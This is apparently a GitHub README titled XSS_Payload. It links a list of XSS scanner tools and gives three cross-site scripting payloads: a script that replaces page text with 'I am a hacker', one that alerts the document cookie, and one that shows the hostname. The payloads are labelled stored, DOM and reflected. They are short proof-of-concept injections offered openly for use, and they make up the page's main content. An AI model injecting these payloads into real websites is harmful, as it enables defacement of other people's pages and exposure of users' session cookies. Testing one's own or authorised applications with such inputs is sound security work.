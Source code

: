 # XSS_Payload
perfect xss payload stored and reflected and dom and some change in the page

<a target="_blank" rel="noopener noreferrer nofollow" href="https://camo.githubusercontent.com/dc249353b0a6e10635deb6d3414b5d6095886795bf022e14e049b20255207d8b/68747470733a2f2f696d672e736869656c64732e696f2f6769746875622f73746172732f7061796c6f6164626f782f7873732d7061796c6f61642d6c6973743f7374796c653d736f6369616c"><img src="https://camo.githubusercontent.com/dc249353b0a6e10635deb6d3414b5d6095886795bf022e14e049b20255207d8b/68747470733a2f2f696d672e736869656c64732e696f2f6769746875622f73746172732f7061796c6f6164626f782f7873732d7061796c6f61642d6c6973743f7374796c653d736f6369616c" data-canonical-src="https://img.shields.io/github/stars/payloadbox/xss-payload-list?style=social" style="max-width: 100%;"></a>


<div class="markdown-heading" dir="auto"><h4 tabindex="-1" class="heading-element" dir="auto">XSS Vulnerability Scanner Tool's :</h4><a id="user-content-xss-vulnerability-scanner-tools-" class="anchor" aria-label="Permalink: XSS Vulnerability Scanner Tool's :" href="#xss-vulnerability-scanner-tools-"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path d="m7.775 3.275 1.25-1.25a3.5 3.5 0 1 1 4.95 4.95l-2.5 2.5a3.5 3.5 0 0 1-4.95 0 .751.751 0 0 1 .018-1.042.751.751 0 0 1 1.042-.018 1.998 1.998 0 0 0 2.83 0l2.5-2.5a2.002 2.002 0 0 0-2.83-2.83l-1.25 1.25a.751.751 0 0 1-1.042-.018.751.751 0 0 1-.018-1.042Zm-4.69 9.64a1.998 1.998 0 0 0 2.83 0l1.25-1.25a.751.751 0 0 1 1.042.018.751.751 0 0 1 .018 1.042l-1.25 1.25a3.5 3.5 0 1 1-4.95-4.95l2.5-2.5a3.5 3.5 0 0 1 4.95 0 .751.751 0 0 1-.018 1.042.751.751 0 0 1-1.042.018 1.998 1.998 0 0 0-2.83 0l-2.5 2.5a1.998 1.998 0 0 0 0 2.83Z"></path></svg></a></div>

<p dir="auto"><a href="https://github.com/UltimateHackers/XSStrike">XSStrike</a></p>

<p dir="auto"><a href="https://github.com/shawarkhanethicalhacker/BruteXSS">BruteXSS Terminal</a></p>

<p dir="auto"><a href="https://github.com/rajeshmajumdar/BruteXSS">BruteXSS GUI</a></p>

<p dir="auto"><a href="http://xss-scanner.com/" rel="nofollow">XSS Scanner Online</a></p>

<p dir="auto"><a href="https://tools.kali.org/web-applications/xsser" rel="nofollow">XSSer</a></p>

<p dir="auto"><a href="https://github.com/DanMcInerney/xsscrapy">xsscrapy</a></p>

<p dir="auto"><a href="https://github.com/v8blink/Chromium-based-XSS-Taint-Tracking">Cyclops</a></p>


# Payloads



<code>
<script>document.body.innerHTML = document.body.innerHTML.replace("XSS Playground", "I am a hacker");</script> to change the main web page text  (STORED)
</code>

<code>
<script>alert(document.cookie);</script> to show your cookie (DOM)
</code>
<code>
<script>alert('cuurnnt url: ' + window.location.hostname)</script> (show the website ip) reflected
</code>
